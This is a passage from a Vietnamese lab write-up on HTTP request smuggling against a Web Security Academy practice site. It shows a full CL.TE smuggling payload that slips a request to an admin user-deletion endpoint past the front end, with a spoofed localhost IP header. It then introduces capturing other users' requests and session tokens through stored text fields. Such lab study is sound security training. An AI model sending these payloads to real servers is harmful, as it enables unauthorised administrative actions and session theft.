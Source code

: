 ![alt text](image-21.png)

Payload:
```http
POST / HTTP/1.1
Host: 0a8f009f032190be84e33c0600fe00b1.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 165
Transfer-Encoding: chunked

0

GET /admin/delete?username=carlos HTTP/1.1
X-aGuzCD-Ip: 127.0.0.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 10
Connection: close

x=
```

---

## Capturing other users' requests
Nếu ứng dụng chứa bất kỳ loại chức năng nào cho phép bạn lưu trữ và sau đó truy xuất dữ liệu văn bản, bạn có thể tận dụng điều này để thu thập nội dung từ các yêu cầu của người dùng khác, bao gồm token phiên hoặc các dữ liệu nhạy cảm khác được người dùng gửi. Những chức năng thích hợp để sử dụng trong cuộc tấn công này có thể là bình luận, email, mô tả hồ sơ, tên hiển thị, và các chức năng tương tự.
